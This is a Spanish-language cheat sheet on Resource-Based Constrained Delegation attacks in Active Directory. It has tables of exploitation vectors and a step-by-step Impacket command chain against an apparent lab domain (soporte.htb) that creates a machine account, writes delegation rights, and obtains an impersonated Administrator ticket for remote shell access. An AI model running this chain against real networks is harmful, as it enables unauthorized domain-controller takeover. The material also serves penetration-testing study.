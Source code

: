 # 🛑 Ataques de **Resource-Based Constrained Delegation (RBCD) en Active Directory**

---

## 📝 ¿Qué es RBCD y por qué es peligroso?

| Concepto      | Descripción                                                                                                       |
|---------------|------------------------------------------------------------------------------------------------------------------|
| **Definición**| Mecanismo de delegación Kerberos que permite a un recurso (servidor/posterior) decidir qué cuentas pueden suplantar identidades de usuario para acceder a él. |
| **Finalidad** | Permite a sistemas intermedios actuar en nombre de usuarios, pero su mala configuración o abuso permite a atacantes obtener acceso total a recursos críticos, incluso a controladores de dominio. |

---

## 🛠️ ¿Cómo funciona y cómo se explota RBCD? (TTPs y ejemplos)

| Vector/Nombre              | Descripción breve                                                                                   |
|----------------------------|----------------------------------------------------------------------------------------------------|
| **Creación de máquina atacante** | Un usuario estándar crea una cuenta de máquina (si MachineAccountQuota > 0) y la usa para delegar hacia el recurso deseado. |
| **Secuestro de máquina existente** | El atacante compromete una cuenta de máquina ya existente y la usa como "frontal" para el ataque. |
| **Abuso de permisos delegados/WriteProperty** | El atacante encuentra permisos de escritura o delegación sobre el atributo RBCD de un recurso y añade su propia cuenta. |
| **Cuentas de servicio/gMSA**     | El atacante compromete cuentas de servicio gestionadas y abusa de ellas para delegar vía RBCD. |
| **Multi-forest/trusts**          | Explotación de trusts mal configurados entre bosques o dominios para escalar privilegios vía RBCD cruzado. |
| **Cuentas máquina huérfanas**    | Uso de cuentas máquina antiguas, olvidadas o sin monitorizar como vector de entrada.            |

---

## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Crear máquina atacante (si MachineAccountQuota > 0)
addcomputer.py -dc-ip 10.10.11.174 soporte.htb/usuario:Password123 -computer-name atacante -computer-pass Password2025!

# 2. Delegar atacante$ en el recurso objetivo (ejemplo: DC$)
rbcd.py -dc-ip 10.10.11.174 -action write -delegate-to DC$ -delegate-from atacante$ soporte.htb/usuario:Password123

# 3. Obtener ticket S4U2Proxy para el servicio objetivo (suplantando a Administrator)
getST.py -dc-ip 10.10.11.174 -spn host/DC.SOPORTE.HTB -impersonate Administrator soporte.htb/atacante$:Password2025!

# 4. Usar el ticket Kerberos para acceso remoto
export KRB5CCNAME=$(pwd)/Administrator.ccache
nxc smb DC.SOPORTE.HTB -k -no-pass -u Administrator
# O bien
wmiexec.py -k -no-pass soporte.htb/Administrator@DC.SOPORTE.HTB
```

---